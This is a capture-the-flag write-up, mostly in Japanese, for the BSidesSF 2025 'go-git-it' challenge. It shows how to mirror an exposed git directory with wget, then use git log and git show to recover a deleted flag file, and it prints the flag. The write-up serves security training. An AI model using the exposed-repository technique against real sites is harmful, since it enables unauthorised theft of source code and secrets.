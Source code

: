 # go-git-it

You didn't commit anything sensitive, right?
https://go-git-it-f7d62cbb.challenges.bsidessf.net/


![](image-1.png)


問題のgitが絡んでくると思ったので以下のurlにアクセス

>.gitは違った

https://go-git-it-f7d62cbb.challenges.bsidessf.net/git/


![](image.png)


## solution

.git/以下を全部ダウンロードしてくる


```
mkdir pwned_repo
cd pwned_repo

wget -r -np -nH --cut-dirs=1 --no-check-certificate https://go-git-it-f7d62cbb.challenges.bsidessf.net/git/
```

ログを見る


```
~/ctf/CTF-Writeup/BSidesSF_2025_CTF/go-git-it/repo$ git log
commit b55daeb6bd7d20f5a36c4d01021e310be8cec716 (HEAD -> main)
Author: McLovin <mclovin@bsidessf.ctf>
Date:   Sat Apr 12 02:46:32 2025 -0700

    removed sensitive information

commit d7701d5752f6782b4f81cf1b3d955a4e25348b6a
Author: McLovin <mclovin@bsidessf.ctf>
Date:   Sat Apr 12 02:46:05 2025 -0700

    initial commit
```

removed sensitive informationが怪しいのでgit showコマンドで見てみる

```
~/ctf/CTF-Writeup/BSidesSF_2025_CTF/go-git-it/repo$ git show b55daeb6bd7d20f5a36c4d01021e310be8cec716
commit b55daeb6bd7d20f5a36c4d01021e310be8cec716 (HEAD -> main)
Author: McLovin <mclovin@bsidessf.ctf>
Date:   Sat Apr 12 02:46:32 2025 -0700

    removed sensitive information

diff --git a/flag.html b/flag.html
deleted file mode 100644
index 61aa83d..0000000
--- a/flag.html
+++ /dev/null
@@ -1 +0,0 @@
-CTF{g0tt4_g!t_th4t}
```

## flag

`CTF{g0tt4_g!t_th4t}`